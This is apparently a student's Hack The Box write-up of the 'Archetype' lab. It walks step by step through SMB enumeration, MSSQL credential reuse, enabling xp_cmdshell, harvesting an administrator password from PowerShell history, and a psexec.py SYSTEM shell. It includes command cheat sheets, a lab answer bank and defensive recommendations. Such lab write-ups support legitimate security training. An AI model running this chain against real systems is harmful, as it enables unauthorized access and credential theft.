

# 🧩 HTB Archetype — Complete Obsidian Notes

> [!abstract] Summary  
> **Archetype** is a Windows machine focused on basic real-world misconfigurations:
>  
> - Anonymous SMB access
> - Exposed configuration files
> - MSSQL credential reuse
> - Command execution through `xp_cmdshell`
> - PowerShell history credential leakage
> - Administrator access using Impacket `psexec.py`

---

## 1. Machine Overview

| Field | Value |
|---|---|
| Machine | `Archetype` |
| Target IP | `10.129.60.219` |
| OS | Windows Server |
| Main Services | SMB, Microsoft SQL Server |
| Initial Access | MSSQL credentials leaked in SMB file |
| Privilege Escalation | Administrator password found in PowerShell history |
| Final Access Method | `psexec.py` |

---

## 2. Attack Chain



---

# 3. Reconnaissance

## 3.1 Initial Nmap Scan

```bash
sudo nmap -sC -sV -oA nmap/initial 10.129.60.219
```

Useful options:

| Option | Meaning |
|---|---|
| `-sC` | Run default safe scripts |
| `-sV` | Detect service versions |
| `-oA` | Save output in all major formats |

---

## 3.2 Full Port Scan

```bash
sudo nmap -p- --min-rate 5000 -oA nmap/allports 10.129.60.219
```

> [!tip] Why scan all ports?  
> The first scan checks common ports only. A full scan ensures no high-numbered service is missed.

---

# 4. SMB Enumeration

## 4.1 Enumerating Shares

Tool used:

```bash
smbclient -L //10.129.60.219/ -N
```

### Result

```text
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
backups         Disk
C$              Disk      Default share
IPC$            IPC       Remote IPC
```

## 4.2 Important Finding

The non-administrative share was:

```text
backups
```

---

## 4.3 Administrative vs Non-Administrative SMB Shares

| Share | Meaning |
|---|---|
| `ADMIN$` | Remote administration share |
| `C$` | Default hidden share for the C drive |
| `IPC$` | Inter-process communication share |
| `backups` | Custom accessible share |

> [!important] Key idea  
> In Windows, shares ending in `$` are usually hidden administrative shares. A custom share without `$`, like `backups`, is more likely to contain useful files.

---

# 5. Accessing the SMB Share

## 5.1 Connect to the Share

```bash
smbclient //10.129.60.219/backups -N
```

Inside the SMB prompt:

```smb
ls
get prod.dtsConfig
exit
```

## 5.2 File Found

```text
prod.dtsConfig
```

This file was downloaded from the `backups` share.

---

# 6. Credential Discovery

## 6.1 Reading the File

```bash
cat prod.dtsConfig
```

Relevant part:

```xml
<ConfiguredValue>
Data Source=.;
Password=M3g4c0rp123;
User ID=ARCHETYPE\sql_svc;
Initial Catalog=Catalog;
Provider=SQLNCLI10.1;
Persist Security Info=True;
Auto Translate=False;
</ConfiguredValue>
```

## 6.2 Credentials Found

```text
Username: ARCHETYPE\sql_svc
Password: M3g4c0rp123
```

---

## 6.3 What is a `.dtsConfig` File?

> [!note] Concept  
> `.dtsConfig` files are configuration files used by SQL Server Integration Services packages.  
> They may store connection strings, database names, usernames, and sometimes passwords.

A connection string commonly contains:

| Field | Meaning |
|---|---|
| `Data Source` | Database server location |
| `User ID` | Username |
| `Password` | Password |
| `Initial Catalog` | Database name |
| `Provider` | SQL provider/driver |

---

# 7. MSSQL Access

## 7.1 Tool Used

The Impacket script used for Microsoft SQL Server authentication is:

```text
mssqlclient.py
```

On some systems it may be installed as:

```text
impacket-mssqlclient
```

On this Fedora setup, the working command was:

```bash
mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@10.129.60.219 -windows-auth
```

---

## 7.2 Why `-windows-auth`?

Because the account is a Windows domain/local account:

```text
ARCHETYPE\sql_svc
```

So we authenticate using Windows authentication instead of SQL-only authentication.

---

## 7.3 Successful Login

Example successful output:

```text
Microsoft SQL Server 2017
SQL (ARCHETYPE\sql_svc dbo@master)>
```

---

# 8. MSSQL Enumeration

## 8.1 Check Current SQL User

```sql
SELECT SYSTEM_USER;
```

Output:

```text
ARCHETYPE\sql_svc
```

## 8.2 Check SQL Server Version

```sql
SELECT @@version;
```

This confirmed Microsoft SQL Server 2017 on Windows Server 2019.

---

# 9. Command Execution with `xp_cmdshell`

## 9.1 What is `xp_cmdshell`?

> [!important] Concept  
> `xp_cmdshell` is a Microsoft SQL Server extended stored procedure that allows SQL Server to run operating system commands.

Example:

```sql
xp_cmdshell whoami
```

This runs the Windows command:

```cmd
whoami
```

through SQL Server.

---

## 9.2 Enable `xp_cmdshell`

Inside `mssqlclient.py`:

```sql
enable_xp_cmdshell
```

Equivalent manual SQL:

```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

---

## 9.3 Test Command Execution

```sql
xp_cmdshell whoami
```

Output:

```text
archetype\sql_svc
```

Other useful checks:

```sql
xp_cmdshell hostname
xp_cmdshell whoami /priv
xp_cmdshell dir C:\Users
```

---

# 10. User Flag

## 10.1 Locate Users

```sql
xp_cmdshell dir C:\Users
```

Important directories found:

```text
Administrator
Public
sql_svc
```

## 10.2 Read User Flag

```sql
xp_cmdshell type C:\Users\sql_svc\Desktop\user.txt
```

Result:

```text
<USER_FLAG_REDACTED>
```

> [!success] Learning point  
> We did not need an interactive reverse shell to get the user flag.  
> MSSQL command execution was enough.

---

# 11. Privilege Escalation Enumeration

## 11.1 Check Privileges

```sql
xp_cmdshell whoami /priv
```

Important privilege observed:

```text
SeImpersonatePrivilege        Enabled
```

## 11.2 What is `SeImpersonatePrivilege`?

> [!note] Concept  
> `SeImpersonatePrivilege` allows a process to impersonate another security context after authentication.  
> On many Windows machines, this can be abused with techniques such as Potato-family attacks if conditions are suitable.

However, on this machine, the easier privilege escalation path was not abusing `SeImpersonatePrivilege`.  
The intended path was credential discovery from PowerShell history.

---

# 12. PowerShell History Credential Leakage

## 12.1 File Containing Administrator Password

The file containing the Administrator password was:

```text
ConsoleHost_history.txt
```

Full path:

```text
C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

## 12.2 Read the File

```sql
xp_cmdshell type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

This file revealed the Administrator password.

```text
<ADMIN_PASSWORD_FROM_HISTORY>
```

---

## 12.3 What is `ConsoleHost_history.txt`?

> [!important] Concept  
> `ConsoleHost_history.txt` stores PowerShell command history for a user.  
> If a user typed passwords, administrative commands, or sensitive paths into PowerShell, they may be saved here.

Typical location:

```text
C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

Useful command:

```cmd
type C:\Users\<USER>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

---

# 13. Administrator Access

## 13.1 Tool Used

The Impacket tool used for administrative remote command execution:

```text
psexec.py
```

## 13.2 Command Format

```bash
psexec.py administrator:'<ADMIN_PASSWORD_FROM_HISTORY>'@10.129.60.219
```

If successful, this gives a shell as:

```text
NT AUTHORITY\SYSTEM
```

---

## 13.3 Confirm Access

```cmd
whoami
```

Expected:

```text
nt authority\system
```

---

# 14. Root Flag

```cmd
type C:\Users\Administrator\Desktop\root.txt
```

Result:

```text
<ROOT_FLAG_REDACTED>
```

---

# 15. Tools Used

| Tool | Purpose |
|---|---|
| `nmap` | Port and service enumeration |
| `smbclient` | SMB share enumeration and file download |
| `mssqlclient.py` | Authenticated MSSQL connection |
| `xp_cmdshell` | OS command execution through MSSQL |
| `psexec.py` | Administrative shell using valid credentials |
| `winPEAS` | Windows privilege escalation enumeration script |

---

# 16. Important Commands Cheat Sheet

## SMB

```bash
smbclient -L //10.129.60.219/ -N
smbclient //10.129.60.219/backups -N
```

Inside SMB:

```smb
ls
get prod.dtsConfig
exit
```

---

## MSSQL

```bash
mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@10.129.60.219 -windows-auth
```

Inside SQL:

```sql
SELECT SYSTEM_USER;
SELECT @@version;
enable_xp_cmdshell
xp_cmdshell whoami
xp_cmdshell hostname
xp_cmdshell whoami /priv
xp_cmdshell dir C:\Users
```

---

## Reading Files Through `xp_cmdshell`

```sql
xp_cmdshell type C:\Users\sql_svc\Desktop\user.txt
xp_cmdshell type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

---

## Administrator Shell

```bash
psexec.py administrator:'<ADMIN_PASSWORD_FROM_HISTORY>'@10.129.60.219
```

Inside shell:

```cmd
whoami
type C:\Users\Administrator\Desktop\root.txt
```

---

# 17. Mistakes and Fixes During the Machine

## Mistake 1: `smbmap` Not Installed

Instead of `smbmap`, use:

```bash
smbclient -L //10.129.60.219/ -N
```

or install the missing tool later.

---

## Mistake 2: Wrong MSSQL Helper Command

Incorrect:

```sql
enable_xp_shell
```

Correct:

```sql
enable_xp_cmdshell
```

---

## Mistake 3: Typing `whoami` Separately

Incorrect flow:

```sql
xp_cmdshell whoami
whoami
```

Correct:

```sql
xp_cmdshell whoami
```

The command after `xp_cmdshell` is the Windows command.  
You do not type it again separately.

---

# 18. Core Concepts Explained Simply

## 18.1 SMB

SMB is used for Windows file sharing.

Examples:

```text
\\TARGET\share
\\10.129.60.219\backups
```

In Linux, we access it using:

```bash
smbclient //IP/share
```

---

## 18.2 Anonymous SMB Access

Anonymous SMB means we can list or access shares without a username/password.

Command:

```bash
smbclient -L //10.129.60.219/ -N
```

`-N` means:

```text
No password
```

---

## 18.3 MSSQL

MSSQL is Microsoft SQL Server.

It normally runs on:

```text
TCP 1433
```

If we find credentials, we can connect using Impacket:

```bash
mssqlclient.py DOMAIN/user:password@IP -windows-auth
```

---

## 18.4 SQL Server Command Execution

SQL Server is a database service, but dangerous features like `xp_cmdshell` can allow OS command execution.

This means:

```sql
xp_cmdshell whoami
```

runs:

```cmd
whoami
```

on the Windows target.

---

## 18.5 Credential Reuse

Credential reuse means the same password is used in more than one place.

Example in this machine:

```text
A password inside a backup/config file allowed login to MSSQL.
```

This is a very common real-world weakness.

---

## 18.6 PowerShell History

PowerShell may save previous commands typed by a user.

If an admin typed a password or sensitive command, it may remain in:

```text
ConsoleHost_history.txt
```

This is why command history files are important during post-exploitation.

---

## 18.7 `psexec.py`

`psexec.py` is an Impacket script that uses valid SMB/admin credentials to execute commands remotely.

It usually requires:

```text
Administrator credentials
SMB access
Administrative privileges
```

Successful access often gives:

```text
NT AUTHORITY\SYSTEM
```

---

# 19. MITRE ATT&CK Mapping

| Technique | ID | Where It Appeared |
|---|---:|---|
| Valid Accounts | `T1078` | Used discovered credentials |
| External Remote Services | `T1133` | Remote access to services |
| SMB/Windows Admin Shares | `T1021.002` | SMB access and `psexec.py` |
| Command and Scripting Interpreter: Windows Command Shell | `T1059.003` | `xp_cmdshell` running CMD commands |
| Unsecured Credentials: Credentials in Files | `T1552.001` | Password in `.dtsConfig` |
| Unsecured Credentials: Bash/PowerShell History | `T1552.003` | Password in PowerShell history |

---

# 20. Lessons Learned

> [!success] Main Lessons  
> - Always enumerate SMB shares carefully.  
> - Non-admin shares may contain sensitive files.  
> - Configuration files often leak credentials.  
> - MSSQL credentials can lead to OS command execution.  
> - PowerShell history is a high-value post-exploitation target.  
> - Administrator password reuse/misuse can lead to full compromise.

---

# 21. Defensive Recommendations

## 21.1 SMB Hardening

- Disable anonymous SMB access.
- Remove unnecessary shares.
- Restrict share permissions.
- Audit readable backup directories.

## 21.2 Secrets Management

- Do not store plaintext passwords in config files.
- Use managed service accounts where possible.
- Rotate exposed credentials immediately.
- Use vault-based secret storage.

## 21.3 MSSQL Hardening

- Disable `xp_cmdshell` unless absolutely required.
- Restrict SQL service account privileges.
- Avoid using domain accounts unnecessarily.
- Monitor for suspicious `xp_cmdshell` usage.

## 21.4 PowerShell Hygiene

- Clear sensitive PowerShell history.
- Avoid typing passwords directly in command line.
- Use secure credential prompts.
- Monitor PSReadLine history locations.

---

# 22. Final Methodology Template

Use this approach for similar Windows machines:


---

# 23. Personal Notes

## What I should remember

```text
SMB share enumeration found backups.
prod.dtsConfig leaked MSSQL credentials.
mssqlclient.py connected using Windows authentication.
xp_cmdshell gave command execution as sql_svc.
PowerShell PSReadLine history leaked Administrator password.
psexec.py gave Administrator/SYSTEM shell.
```

## Commands I should memorize

```bash
smbclient -L //IP/ -N
smbclient //IP/share -N
mssqlclient.py DOMAIN/user:password@IP -windows-auth
psexec.py administrator:'password'@IP
```

```sql
enable_xp_cmdshell
xp_cmdshell whoami
xp_cmdshell type C:\path\file.txt
```

---

# 24. Clean Answer Bank

| Question | Answer |
|---|---|
| Non-administrative SMB share? | `backups` |
| Password in SMB file? | `M3g4c0rp123` |
| Impacket script for MSSQL? | `mssqlclient.py` |
| Windows privilege escalation enumeration script? | `winPEAS` |
| File containing Administrator password? | `ConsoleHost_history.txt` |
| User running MSSQL commands? | `archetype\sql_svc` |
| Hostname? | `Archetype` |

---

# 25. Compact Kill Chain

```text
SMB anonymous access
→ backups share
→ prod.dtsConfig
→ MSSQL creds
→ mssqlclient.py
→ xp_cmdshell
→ user.txt
→ ConsoleHost_history.txt
→ Administrator password
→ psexec.py
→ root.txt
```

---

## End

> [!done] Machine completed  
> This box teaches the importance of enumeration, credential hunting, and understanding how one small misconfiguration can become full system compromise.
